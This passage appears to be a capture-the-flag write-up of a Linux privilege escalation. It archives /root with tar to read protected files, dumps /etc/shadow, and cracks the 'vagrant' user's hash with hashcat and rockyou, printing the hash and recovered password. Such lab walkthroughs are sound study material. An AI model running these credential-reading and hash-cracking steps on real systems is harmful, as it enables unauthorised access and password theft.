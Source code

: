Lets go.
First we gonna tar archive the root directory.
`tar -cf /tmp/extracted.tar /root`

And then extract from that `extracted.tar` tar archive.
`tar -xf extracted.tar`

And we got `/root` directory.
![](Pasted%20image%2020250226191835.png)

Now we can directly read `root.txt`.
Or we can read `/etc/shadow`.
And we can see a user vagrant.
![](Pasted%20image%2020250226193105.png)

Root's password might be very hard to crack,So lets crack the hash of this user.
`hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`

And we got it.
`$6$XQAwkysB$wSkezwLStg6E8nT/h5ECcNdiBuGt98yNnjwVEB.YVEAQY9z5AamgBhYTUAzKRQjmNxpEOLP/a36mxdZyaKJk60:vagrant`
